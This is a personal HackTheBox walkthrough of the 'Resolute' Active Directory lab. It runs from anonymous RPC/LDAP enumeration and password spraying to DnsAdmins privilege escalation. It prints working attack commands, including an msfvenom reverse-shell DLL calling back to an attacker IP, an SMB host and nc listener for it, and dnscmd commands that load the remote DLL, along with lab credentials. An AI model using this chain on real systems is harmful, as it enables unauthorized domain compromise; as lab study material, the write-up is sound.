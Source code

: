 ```yaml
---
title: "HTB Resolute Walkthrough"
machine_name: "Resolute"
difficulty: "Medium"
os: "Windows"
date_completed: "2025-04-25"
techniques: ["Active Directory", "RPC Enumeration", "LDAP Anonymous Bind", "Password Spraying", "WinRM", "DnsAdmins Exploitation", "DLL Injection", "PowerShell Transcripts"]
box_ip: "10.10.10.169"
machine_rank: "#9183"
htb_completion_image: "resolute.webp"
---
```


![HTB Resolute Completion](/static/imgs/walkthroughs/resolute.webp)

In this walkthrough, I'll guide you through my exploitation of the "Resolute" box from HackTheBox. It begins with simple anonymous bindings and culminates in a system-level compromise. The attack chain starts with RPC anonymous binding to gather user accounts, discovering credentials through LDAP anonymous binding, and confirming access via password spraying to gain initial access as user 'melanie'. From there, the path leads to uncovering a hidden PowerShell transcript directory containing the credentials for a higher-privileged user 'ryan', who belongs to the powerful DnsAdmins group. This group membership becomes our ticket to privilege escalation by allowing us to inject a malicious DLL through the DNS service, ultimately yielding SYSTEM-level access and complete domain compromise.

## Box Information
- **Platform:** HackTheBox
- **Operating System:** Windows Server 2016
- **Domain:** megabank.local
- **Computer Name:** RESOLUTE
- **FQDN:** Resolute.megabank.local
- **Date Completed:** April 24, 2025

## Initial Enumeration

As always, we begin with an nmap scan to identify available services:

```bash
nmap -p- --min-rate 5000 -vvv -n -Pn 10.10.10.169 -oG nmap/allPorts 
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49688,49907 10.10.10.169 -oN nmap/detailed
```

### Open Ports and Services

```bash
53/tcp   open  domain      DNS         # Domain Controller indicator
88/tcp   open  kerberos    Kerberos    # Confirms Active Directory environment
135/tcp  open  rpc         RPC
389/tcp  open  ldap        LDAP
445/tcp  open  smb         SMB
5985/tcp open  wsman       WinRM
47001/tcp open  winrm      WinRM
```

From this scan, we can immediately identify that we're dealing with an Active Directory domain controller, as evidenced by the DNS (53), Kerberos (88), and LDAP (389) services.

### Additional Information Gathered

- **Domain name:** megabank.local
- **Computer name:** RESOLUTE
- **FQDN:** Resolute.megabank.local

**Note on Time Skew:** There is a time skew between our attacking machine and the domain controller. This is particularly important for Kerberos-based attacks in Active Directory environments, as Kerberos authentication is highly time-sensitive with a default maximum tolerance of only 5 minutes between client and server clocks.

## User Enumeration

We can obtain a list of users using RPCClient with anonymous binding:

```bash
rpcclient -U '' -N 10.10.10.169
rpcclient $> enumdomusers
```

With this list, I shifted my aim to finding a password. SMB NULL Authentication was proving unsuccessful, so I had no access to shares. The next step was enumerating LDAP.

## Password Discovery via LDAP Anonymous Binding

LDAP anonymous binding was enabled, and I was able to extract a password with the following query:

```bash
ldapsearch -H ldap://10.10.10.169 -x -b 'DC=megabank,DC=local' -s sub | grep Pass
```

The password was found in a description field for the user marko: **Welcome123!**

## Initial Access

With a list of users and a potential password, it's time for a password spray. I tried the password "Welcome123!" against all enumerated users and found that it worked for the user **melanie**.

I checked for accessible SMB shares but found nothing interesting. Since our port scan showed WinRM was open, I tried connecting via WinRM:

```bash
evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!
```

Success! We now have a shell as melanie and can grab the user flag.

## Lateral Movement to Ryan

Once on the system, I began exploring for privilege escalation opportunities. The key finding was a hidden directory at the root level:

```bash
dir -force
```

This revealed a hidden **PSTranscripts** directory. This is not a common directory, so I decided to investigate further:

```bash
dir -force C:\PSTranscripts\*
```

Following the trail led to a PowerShell transcript file containing command history. Within this file, I discovered credentials for another user:

**ryan:Serv3r4Admin4cc123!**

These credentials belonged to the user ryan, and I was able to establish a new WinRM session as this user:

```bash
evil-winrm -i 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!
```

## Privilege Escalation via DnsAdmins Group

I knew there were no other users on the box I could pivot to except for Administrator, and knowing I was on an AD environment, it was likely the next path had something to do with a privilege the ryan user had. So I checked group memberships:

```bash
whoami /groups
```

The output revealed that ryan was a member of the **DnsAdmins** group. This is significant because members of this group can manipulate DNS settings, including loading arbitrary DLLs.

The exploitation path involves:
1. Creating a malicious DLL
2. Using dnscmd to configure the DNS server to load our DLL
3. Restarting the DNS service to execute our code

Here's how I executed this attack:

First, I created a reverse shell DLL on my attacking machine via msfvenom:

```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.16.3 LPORT=9001 -f dll > privesc.dll
```

Then I set up an SMB server to host the file:

```bash
mkdir exploits
mv privesc.dll exploits/
sudo impacket-smbserver share $(pwd)
```

In another terminal, I started a netcat listener:

```bash
nc -lnvp 9001
```

Back in my WinRM session as ryan, I configured the DNS server to load my malicious DLL and restarted the service:

```bash
dnscmd Resolute.megabank.local /config /serverlevelplugindll \\10.10.16.3\share\privesc.dll
sc.exe stop dns
sc.exe start dns
```

As the DNS service restarted, it loaded my DLL, which executed with SYSTEM privileges and sent a reverse shell to my listener.

Success! I now had a shell as **NT AUTHORITY\SYSTEM** and could grab the root flag.

## Key Learning Points

### Technical Skills Gained
- DnsAdmin group exploitation in Active Directory via DLL injection
- Working with Windows Server 2016
- Exploiting the dnscmd binary
- DNS service management with sc.exe
- Using netexec as an alternative to crackmapexec
- Finding hidden directories with `dir -force`

### Methodology Improvements
- Quickly extracted all users using `rpcclient` and I'm now starting to memorize some of the more common enumeration commands
- Following guided walkthrough helped me not waste tons of time
- Started to copy Ippsec's way of organizing files with my own touch which is proving helpful

### Personal Growth Notes
- I need to remember to use all avenues of enumeration
- I forgot to enumerate LDAP Anonymous Binding initially, which was a necessary step
- In general I think I'm getting a better grasp of AD. I'm almost done with the HTB Academy Module 'Active Directory Enumeration & Attacks'

## Attack Chain Summary

1. Enumerate users via RPC anonymous binding
2. Discover password via LDAP anonymous binding
3. Password spray reveals melanie uses the discovered password
4. Access via WinRM as melanie
5. Discover ryan's credentials in a hidden PowerShell transcripts directory
6. Lateral movement to ryan, who is in the DnsAdmins group
7. Exploit DnsAdmins privilege by injecting a malicious DLL using the dnscmd binary
8. Gain SYSTEM privileges and capture the root flag

**Important Note:** The DnsAdmins exploitation requires restarting the DNS service, which in a real pentest environment is not ideal as it can cause service disruption.
